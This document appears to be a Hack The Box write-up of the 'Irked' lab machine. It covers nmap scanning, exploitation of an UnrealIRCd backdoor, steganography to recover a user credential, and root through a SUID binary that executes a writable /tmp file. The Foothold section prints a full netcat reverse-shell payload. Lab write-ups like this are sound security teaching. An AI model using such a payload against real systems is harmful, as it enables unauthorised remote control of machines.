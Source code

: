 ```yaml
---
title: "[HTB] Machine: Irked"
description: "[HTB] Machine: Irked"
date: 2023-06-12
menu:
  sidebar:
    name: "[HTB] Machine: Irked"
    identifier: htb-machine-irked
    parent: htb-machines-linux
    weight: 10
hero: images/irked.png
tags: ["HTB"]
---
```


# Irked
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.117                                                                                             
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-14 18:23 BST
Nmap scan report for 10.10.10.117 (10.10.10.117)
Host is up (0.15s latency).
Not shown: 65528 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
6697/tcp  open  ircs-u
8067/tcp  open  infi-async
58258/tcp open  unknown
65534/tcp open  unknown
```
```
└─$ nmap -sV -sC -p22,80,111,6697,8067,58258,65534 10.10.10.117 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-14 18:51 BST
Nmap scan report for 10.10.10.117 (10.10.10.117)
Host is up (0.16s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a5df5bdcf8378b675319bdc79c5fdad (DSA)
|   2048 752e66bfb93cccf77e848a8bf0810233 (RSA)
|   256 c8a3a25e349ac49b9053f750bfea253b (ECDSA)
|_  256 8d1b43c7d01a4c05cf82edc10163a20c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          35649/udp6  status
|   100024  1          44214/tcp6  status
|   100024  1          58258/tcp   status
|_  100024  1          59795/udp   status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
58258/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd (Admin email djmardov@irked.htb)
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.24 seconds
```
- Web server

![](./images/1.png)

## Foothold
- We have an open `irc` port
  - Let's connect
  - Create and edit new network: `irked` in screenshots below
  - Setup connection: change `newserver/6697` to `10.10.10.117/6697`
  - We can add the network to favorites and filter everything out
  - And finally connect

![](./images/2.png)
![](./images/3.png)
![](./images/4.png)
![](./images/5.png)
![](./images/6.png)

- Nothing interesting except the version of the software
  - Let's use `searchsploit` to search for vulnerabilities

![](./images/7.png)

- And we find a few

![](./images/8.png)

- Let's test `rce`

![](./images/10.png)

- Seems like it works
  - Let's get our foothold
  - payload: `AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.3 6666 >/tmp/f`

![](./images/9.png)
![](./images/11.png)

## User
- Now we need to privesc
  - Enumerate as usual

![](./images/12.png)

- We see interesting file in `/home/djmardov/Documents` directory
  - Let's open it

![](./images/13.png)

- It certainly implies stenography and we have an image on the website
  - Let's check it
  - I used `steghide`

![](./images/14.png)

- And we have our `user`
## Root
- Basic enumeration
  - `linpeas` or manual
  - `sudo -l` - no results
  - search for `suid` binaries: `find / -perm -4000 -exec ls -lha {} \; 2>/dev/null`

![](./images/15.png)

- Strange `vievuser` file

![](./images/16.png)

- We have an error that `sh` can't locate `/tmp/listusers`
  - Let's create file and add `whoami` just in case it will execute it

![](./images/17.png)

- So, we can pretty much execute anyhing
  - Start listener and add `reverse shell` payload to `/tmp/listusers`
  - Rooted